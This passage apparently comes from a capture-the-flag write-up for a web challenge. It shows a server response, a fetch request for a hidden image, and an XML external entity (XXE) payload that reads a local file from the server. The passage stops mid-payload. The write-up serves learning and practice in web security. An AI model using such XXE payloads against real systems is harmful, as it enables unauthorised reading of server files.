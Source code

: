 ```
{
  "appResp": "Ah, you found my ring list! Gold, red, blue - so many colors! Glad I don't keep any secrets in it any more! Please though, don't tell anyone about this.^She really does try to keep things safe. Best just to put it away. (click)",
  "droppedOn": "none",
  "visit": "static/images/pholder-morethantopsupersecret63842.png,262px,100px"
}
```

The visit parameter in the response points to a URL. Let's visit that.
```
await fetch("https://glamtarielsfountain.com/static/images/pholder-morethantopsupersecret63842.png", {
    "credentials": "include",
    "headers": {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0",
        "Accept": "image/avif,image/webp,*/*",
        "Accept-Language": "en-US,en;q=0.5",
        "Sec-Fetch-Dest": "image",
        "Sec-Fetch-Mode": "no-cors",
        "Sec-Fetch-Site": "same-origin",
        "Pragma": "no-cache",
        "Cache-Control": "no-cache"
    },
    "referrer": "https://glamtarielsfountain.com/",
    "method": "GET",
    "mode": "cors"
});
```
![](../images/web_ring/pholder-morethantopsupersecret63842.png)

The image hints of the existence of a folder called `x_phial_pholder_2022` within which reside files
`bluering.txt` and `redring.txt`. Let's issue requests for these files.

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ELEMENT foo ANY > 
<!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/redring.txt"> ]>
<root>
 <imgDrop>&xxe;</imgDrop>
 <who>princess</who>
 ```
